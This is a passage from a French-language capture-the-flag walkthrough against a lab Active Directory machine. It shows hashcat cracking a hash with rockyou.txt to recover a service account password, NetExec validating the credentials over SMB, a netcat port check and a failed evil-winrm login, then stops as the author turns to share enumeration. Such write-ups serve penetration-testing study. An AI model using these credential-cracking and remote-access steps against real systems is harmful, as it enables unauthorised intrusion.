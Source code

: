 ```terminal
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2138.5 kH/s (1.24ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5840896/14344387 (40.72%)
Rejected.........: 0/5840896 (0.00%)
Restore.Point....: 5836800/14344387 (40.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: manaiah11 -> mamitarica2205
Hardware.Mon.#1..: Temp: 40c Util: 63%
```
Avec `hashcat` je crack le hash et le mot de passe `management2005`

## Acces Initial

J'ai un utilisateur et un mot de passe, so maintenant quoi faire ?
- D'abord faire du `Netexec` pour voir s'ils sont valides.

```terminal
└─# nxc smb $ip -u svc-admin -p 'management2005'
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005

```

Ok l'utilisateur est bien valide,
- je vais enumerer le port 5985 basee sur `winrm` et voir si je peux me connecer

```terminal
─# nc -nv $ip 5985                             
(UNKNOWN) [10.10.237.76] 5985 (?) open

```

Le port est ouvert, alors je vais essayer de me connecter la dessus avec `evil-winrm`


```terminal
└─# evil-winrm -i $ip -u svc-admin -p management2005
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```
J'arrive pas a me connecter, Donc quoi faire encore ?
- Je vais enumerer les `shares` avec cet utilisateur

